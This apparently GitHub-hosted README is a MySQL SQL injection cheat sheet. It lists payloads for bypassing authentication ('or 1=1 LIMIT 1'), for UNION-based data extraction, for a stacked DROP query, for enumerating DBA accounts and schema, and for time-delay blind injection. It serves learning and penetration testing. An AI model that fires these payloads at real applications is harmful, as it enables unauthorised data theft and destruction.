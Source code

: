 # MySQL-SQL-Injection-Cheatsheet
Tips for manually detect &amp; exploit SQL injection Vulnerability : MySQL

# Comment in MySQL <br>
1.  \# <br>
2.  -- (After double dash put space) <br>
3.  /\*\*/  <br>
 Ex: SELECT * from users/**/WHERE username='rk' AND password='123'; /*SQL keyword is case insansitive */  <br>
 
# MySQL LIMIT Clause  <br>
 1. The LIMIT clause is used to specify the number of records to return.  <br>
  Ex: SELECT * FROM users where username='' or 1=1 LIMIT 1; /*Without limit keyword it will return multiple result. it will help in auth bypass*/  <br>
  
# MySQL UNION Operator  <br>
 1. The UNION operator is used to combine the result-set of two or more SELECT statements.  <br>
    a. Every SELECT statement within UNION must have the same number of columns.  <br>
    b. The columns must also have similar data types.  <br>
    c. The columns in every SELECT statement must also be in the same order.  <br>
  Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password'; /* Select from same table */  <br>
  Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password' FROM hack.users;  /* Select from different DB and table */  <br>
  
# MYSQL Stack query <br>
1. MySQL does not support stack query with PHP, ASP.NET, Java <br>
Ex: SELECT * FROM products WHERE id = 1; DROP users-- /* stack query example */ <br>
  
# Substring  <br>
  1. SUBSTRING('MySQL', 3, 2)  <br>

# String without quote(' or ") <br>
1. using CONCAT function <br>
Ex: SELECT CONCAT(CHAR(77),CHAR(89),CHAR(83),CHAR(81),CHAR(76)); /* return MYSQL string */  <br>
2. using hex value <br>
Ex: SELECT 0x4d7953514c;  /* return MYSQL string */  <br>

# Database version <br>
1. SELECT @@version <br>

# Current Database <br>
Ex: SELECT database(); <br>

# Current Database User <br>
Ex 1: SELECT user(); <br>
Ex 2:SELECT system_user(); <br>

# List DBA account <br>
Ex: SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; <br>

# Database contents <br>
1. Selecting all the tables in MySQL along with DB <br>
Ex: SELECT * FROM information_schema.tables; <br>
2. electing all the columns in perticular table <br>
Ex: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE_NAME'; <br>

# Time Delay
Ex 1: SELECT sleep(10)  /* Sleep for 10 sec */ <br>
Ex 2: SELECT IF(CONDITION-HERE,sleep(10),'a'  /* Sleep for 10 sec if codition is True*/ <br>



  
    
